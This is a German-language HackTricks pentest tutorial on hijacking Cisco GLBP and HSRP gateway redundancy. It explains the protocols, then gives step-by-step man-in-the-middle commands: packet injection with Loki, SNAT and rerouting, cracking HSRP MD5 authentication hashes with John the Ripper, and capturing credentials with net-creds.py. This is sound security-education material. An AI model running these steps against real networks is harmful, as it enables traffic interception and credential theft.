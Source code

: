 # GLBP & HSRP Angriffe

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Überblick

### Einblicke in FHRP
FHRP ist darauf ausgelegt, Netzwerkrobustheit zu bieten, indem mehrere Router zu einer einzigen virtuellen Einheit zusammengeführt werden, um die Lastenverteilung und Ausfallsicherheit zu verbessern. Cisco Systems führte prominente Protokolle in dieser Suite ein, wie GLBP und HSRP.

### GLBP Protokoll Einblicke
Ciscos Kreation, GLBP, funktioniert im TCP/IP-Stack und nutzt UDP auf Port 3222 für die Kommunikation. Router in einer GLBP-Gruppe tauschen "hello"-Pakete in 3-Sekunden-Intervallen aus. Wenn ein Router es versäumt, diese Pakete 10 Sekunden lang zu senden, wird davon ausgegangen, dass er offline ist. Diese Timer sind jedoch nicht festgelegt und können geändert werden.

### GLBP Operationen und Lastverteilung
GLBP zeichnet sich dadurch aus, dass es die Lastenverteilung über Router mithilfe einer einzigen virtuellen IP in Verbindung mit mehreren virtuellen MAC-Adressen ermöglicht. In einer GLBP-Gruppe ist jeder Router am Paketweiterleiten beteiligt. Im Gegensatz zu HSRP/VRRP bietet GLBP echtes Lastenausgleich durch verschiedene Mechanismen:

- **Host-abhängiger Lastenausgleich:** Hält die konsistente AVF-MAC-Adresszuweisung an einen Host aufrecht, was für stabile NAT-Konfigurationen unerlässlich ist.
- **Round-Robin-Lastenausgleich:** Der Standardansatz, der die AVF-MAC-Adresszuweisung abwechselnd unter den anfragenden Hosts verteilt.
- **Gewichteter Round-Robin-Lastenausgleich:** Verteilt die Last basierend auf vordefinierten "Gewichts"-Metriken.

### Schlüsselkomponenten und Begriffe in GLBP
- **AVG (Active Virtual Gateway):** Der Hauptrouter, der für die Zuweisung von MAC-Adressen an Peer-Router verantwortlich ist.
- **AVF (Active Virtual Forwarder):** Ein Router, der zur Verwaltung des Netzwerkverkehrs bestimmt ist.
- **GLBP-Priorität:** Eine Metrik, die den AVG bestimmt, beginnend mit einem Standardwert von 100 und im Bereich von 1 bis 255.
- **GLBP-Gewicht:** Spiegelt die aktuelle Last auf einem Router wider, die entweder manuell oder durch Objektverfolgung angepasst werden kann.
- **GLBP-Virtuelle IP-Adresse:** Dient als Standardgateway des Netzwerks für alle verbundenen Geräte.

Für Interaktionen verwendet GLBP die reservierte Multicast-Adresse 224.0.0.102 und den UDP-Port 3222. Router senden "hello"-Pakete in 3-Sekunden-Intervallen und gelten als nicht betriebsbereit, wenn ein Paket über einen Zeitraum von 10 Sekunden verpasst wird.

### GLBP Angriffsmechanismus
Ein Angreifer kann zum primären Router werden, indem er ein GLBP-Paket mit dem höchsten Prioritätswert (255) sendet. Dies kann zu DoS- oder MITM-Angriffen führen, die den Verkehr abfangen oder umleiten.

### Ausführen eines GLBP-Angriffs mit Loki
[Loki](https://github.com/raizo62/loki_on_kali) kann einen GLBP-Angriff durchführen, indem er ein Paket mit Priorität und Gewicht auf 255 injiziert. Vor dem Angriff sind Schritte wie das Sammeln von Informationen wie der virtuellen IP-Adresse, der Authentifizierungspräsenz und den Routerprioritätswerten mithilfe von Tools wie Wireshark erforderlich.

Angriffsschritte:
1. Wechseln Sie in den Promiscuous-Modus und aktivieren Sie die IP-Weiterleitung.
2. Identifizieren Sie den Zielrouter und rufen Sie dessen IP ab.
3. Generieren Sie eine Gratuits-ARP.
4. Injizieren Sie ein bösartiges GLBP-Paket, das den AVG imitiert.
5. Weisen Sie dem Netzwerkinterface des Angreifers eine sekundäre IP-Adresse zu, die der GLBP-Virtual-IP entspricht.
6. Implementieren Sie SNAT für eine vollständige Traffic-Sichtbarkeit.
7. Passen Sie das Routing an, um weiterhin den Internetzugang über den ursprünglichen AVG-Router sicherzustellen.

Durch Befolgen dieser Schritte positioniert sich der Angreifer als "Man in the Middle", der in der Lage ist, den Netzwerkverkehr abzufangen und zu analysieren, einschließlich unverschlüsselter oder sensibler Daten.

Für die Demonstration sind hier die erforderlichen Befehlsschnipsel:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passive Erklärung des HSRP-Hijackings mit Befehlsdetails

#### Übersicht über HSRP (Hot Standby Router/Redundancy Protocol)
HSRP ist ein von Cisco entwickeltes Protokoll für die Redundanz des Netzwerkgateways. Es ermöglicht die Konfiguration mehrerer physischer Router zu einer einzigen logischen Einheit mit einer gemeinsamen IP-Adresse. Diese logische Einheit wird von einem primären Router verwaltet, der für die Weiterleitung des Datenverkehrs verantwortlich ist. Im Gegensatz zu GLBP, das Metriken wie Priorität und Gewicht für die Lastverteilung verwendet, verlässt sich HSRP auf einen einzigen aktiven Router für das Traffic-Management.

#### Rollen und Begriffe in HSRP
- **HSRP Active Router**: Das Gerät, das als Gateway fungiert und den Datenverkehrsfluss verwaltet.
- **HSRP Standby Router**: Ein Backup-Router, der bereit ist, die Rolle des aktiven Routers zu übernehmen, falls dieser ausfällt.
- **HSRP-Gruppe**: Eine Gruppe von Routern, die zusammenarbeiten, um einen einzigen widerstandsfähigen virtuellen Router zu bilden.
- **HSRP-MAC-Adresse**: Eine virtuelle MAC-Adresse, die dem logischen Router im HSRP-Setup zugewiesen ist.
- **HSRP-Virtuelle IP-Adresse**: Die virtuelle IP-Adresse der HSRP-Gruppe, die als Standardgateway für verbundene Geräte fungiert.

#### HSRP-Versionen
HSRP gibt es in zwei Versionen, HSRPv1 und HSRPv2, die sich hauptsächlich in der Gruppenkapazität, der Verwendung von Multicast-IPs und der Struktur der virtuellen MAC-Adresse unterscheiden. Das Protokoll verwendet spezifische Multicast-IP-Adressen für den Austausch von Dienstinformationen, wobei Hello-Pakete alle 3 Sekunden gesendet werden. Ein Router gilt als inaktiv, wenn innerhalb eines Intervalls von 10 Sekunden kein Paket empfangen wird.

#### HSRP-Angriffsmechanismus
HSRP-Angriffe beinhalten das gewaltsame Übernehmen der Rolle des aktiven Routers durch das Einspritzen eines maximalen Prioritätswerts. Dies kann zu einem Man-In-The-Middle (MITM)-Angriff führen. Wesentliche Vor-Angriffsschritte umfassen das Sammeln von Daten über das HSRP-Setup, was mit Wireshark für die Traffic-Analyse durchgeführt werden kann.

#### Schritte zum Umgehen der HSRP-Authentifizierung
1. Speichern Sie den Netzwerkverkehr, der HSRP-Daten enthält, als .pcap-Datei.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extrahieren Sie MD5-Hashes aus der .pcap-Datei mithilfe von hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Knacken Sie die MD5-Hashes mit John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ausführen der HSRP-Injektion mit Loki**

1. Starten Sie Loki, um HSRP-Anzeigen zu identifizieren.
2. Setzen Sie die Netzwerkschnittstelle in den Promiscuous-Modus und aktivieren Sie die IP-Weiterleitung.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Verwenden Sie Loki, um den spezifischen Router anzugreifen, geben Sie das geknackte HSRP-Passwort ein und führen Sie die erforderlichen Konfigurationen durch, um den aktiven Router zu imitieren.
4. Nachdem Sie die Rolle des aktiven Routers übernommen haben, konfigurieren Sie Ihre Netzwerkschnittstelle und IP-Tabellen, um den legitimen Datenverkehr abzufangen.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Ändern Sie die Routing-Tabelle, um den Datenverkehr über den ehemaligen aktiven Router zu leiten.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Verwenden Sie net-creds.py oder ein ähnliches Dienstprogramm, um Anmeldeinformationen aus dem abgefangenen Datenverkehr zu erfassen.
```shell
sudo python2 net-creds.py -i eth0
```

Durch die Ausführung dieser Schritte kann der Angreifer in die Lage versetzt werden, den Datenverkehr abzufangen und zu manipulieren, ähnlich dem Verfahren beim GLBP-Hijacking. Dies verdeutlicht die Schwachstelle in Redundanzprotokollen wie HSRP und die Notwendigkeit robuster Sicherheitsmaßnahmen.

